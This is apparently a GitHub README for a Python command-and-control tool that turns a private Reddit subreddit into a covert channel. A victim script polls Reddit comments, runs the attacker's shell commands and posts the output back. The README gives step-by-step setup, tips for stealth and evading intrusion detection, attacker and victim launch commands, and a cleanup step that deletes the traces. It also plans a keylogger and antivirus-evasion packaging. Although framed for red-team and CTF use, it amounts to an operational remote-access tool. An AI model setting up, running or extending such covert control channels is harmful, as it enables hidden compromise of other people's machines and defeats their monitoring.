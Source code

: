 # Python Reddit CnC
A Python based Reddit CnC

## Why Reddit?
I wanted to create a Python based shell that would be very hard to differentiate from legitimate traffic. The first project I made was a Python HTTPS shell that would generate noise to reddit.com but this would still need a self-signed certificate which would cause IDS to trigger on the invalid certificate associated with the displayed domain (reddit.com). After brainstorming for a while and letting colleagues of mine analyze the PCAP, I remembered the Turla CnC which made use of Instagram comments, found the [PRAW](https://praw.readthedocs.io/en/latest/) library and [a Reddit comment bot](https://github.com/yashar1/reddit-comment-bot). The result of all these inspirations is shown in the scripts.

I hope that this tool will prove useful in pentesting, red team, CTF, etc.

## How it works
The attacker creates a subreddit (preferably a private one), this subreddit will serve as the place for the attacker to execute the commands and the victim to post the output of the executed command. This can be summarized as follows:
* Attacker creates a post on the subreddit and notes the ID of this post
* Attacker starts the Reddit CnC with the following parameters: username, password, client-id, client-secret, subreddit and post-id
* The CommandCenter places a "start" string and waits for the "ready" comment of the victim
* When the victim script starts it looks for the "start" string and places a "ready" comment
* The attacker parses the "ready" comment and places the "exec whoami" comment to issue a whoami command to the victim
* The victim responds with "result [user id]"
* The attacker parses the comment by verifying that the comment ID does not exists in the list with parsed comment ID's
* Result gets displayed on the terminal of the attacker

After issuing the "exit" command by the attacker, the victim will delete all the comments in the subreddit's post.

## Requirements
* [Python](https://www.python.org/downloads/)
* [PRAW](https://praw.readthedocs.io/en/latest/) - Python Reddit API Wrapper
* [DNSPython](http://www.dnspython.org/) - Python DNS toolkit
* A **Reddit** account

## Setup
### Reddit
**Setting up the Reddit account details**
* [Navigate to the Reddit Apps page ](https://www.reddit.com/prefs/apps/)
* Click *create an app*
* **name:** Set a name for your app
* **type:** Script
* **description:** Optional
* **about url:** Optional
* **redirect uri:** http://localhost:8080
* Write down the *client id* and *secret*

**Setting up the subreddit**
* [Create a subreddit](https://www.reddit.com/subreddits/create)
* **name:** Set a name for your subreddit
* **title:** Set a title for your subreddit
* **description:** Optional
* **sidebar:** Optional
* **Posttext:** Optional
* **language:** Optional
* **type:** this can be anything you want, if you want to go for stealth I suggest setting this to "private"
* **content options:** Optional
* **wiki:** Optional
* **spamfilter:** I suggest setting this to low, I have not tested if it deletes comments when issuing a lot of commands
* **other options:** Leave default
* **mobile looks:** really?
* **Press create**

* Create a first post, the content doesn't matter
* Write down the ID of the post displayed in the URL

## Usage
**Attacker**
```sh
$ python reddit_command.py --username [username] --password [password] --client-id [client ID] --client-secret [client secret] --subreddit [subreddit you created] --post-id [ID of the post in the subreddit]
```

**Victim**
```sh
$ python reddit_slave.py --username [username] --password [password] --client-id [client ID] --client-secret [client secret] --subreddit [subreddit you created] --post-id [ID of the post in the subreddit]
```

## Future improvements
* Add keylogger/clipboardlogger option
* Hide the victim script inside an executable with antivirus/endpoint protection/solution evasions

## Acknowlegdements
* Idea based on the [Reddit Comment Bot](https://github.com/yashar1/reddit-comment-bot)
